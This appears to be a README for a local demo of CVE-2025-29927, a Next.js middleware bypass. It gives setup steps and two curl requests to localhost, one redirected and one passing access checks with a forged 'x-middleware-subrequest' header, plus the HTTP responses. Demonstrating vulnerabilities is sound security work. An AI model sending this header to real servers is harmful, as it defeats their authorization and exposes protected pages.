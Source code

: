 # CVE-2025-29927 Demo

Original writeup: https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware

## Setup

First, run the development server:

```bash
npm i
npm run dev
```

Open [http://localhost:3000](http://localhost:3000) with your browser to see the result.

## Trying out the bypass

`curl -I http://localhost:3000`

```http
HTTP/1.1 307 Temporary Redirect
location: /403
Date: Mon, 24 Mar 2025 08:02:50 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

`curl -I -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000`

```http
HTTP/1.1 200 OK
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
link: </_next/static/media/569ce4b8f30dc480-s.p.woff2>; rel=preload; as="font"; crossorigin=""; type="font/woff2", </_next/static/media/93f479601ee12b01-s.p.woff2>; rel=preload; as="font"; crossorigin=""; type="font/woff2", </_next/static/css/app/layout.css?v=1742803407039>; rel=preload; as="style"
Cache-Control: no-store, must-revalidate
X-Powered-By: Next.js
Content-Type: text/html; charset=utf-8
Date: Mon, 24 Mar 2025 08:03:27 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```
